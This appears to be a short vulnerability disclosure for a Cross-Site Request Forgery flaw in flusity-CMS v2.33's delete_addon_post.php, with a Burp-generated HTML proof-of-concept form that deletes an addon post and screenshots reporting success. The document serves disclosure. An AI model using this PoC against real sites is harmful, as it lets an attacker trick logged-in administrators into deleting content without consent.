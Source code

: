 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /cover/addons/info_media_gallery/action/delete_addon_post.php

![1](https://github.com/TinkAnet/cve/assets/118334129/c0c26ef0-e39d-4d34-8982-570cced1d8b8)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/cover/addons/info_media_gallery/action/delete_addon_post.php" method="POST">
      <input type="hidden" name="name" value="info&#95;media&#95;gallery" />
      <input type="hidden" name="id" value="19" />
      <input type="hidden" name="addon&#95;post&#95;id" value="5" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/TinkAnet/cve/assets/118334129/9104a4de-72fb-4e9d-ab03-b7e9adfed289)


Successed

![3](https://github.com/TinkAnet/cve/assets/118334129/f016f56f-57c4-4f29-a256-1583439c5882)
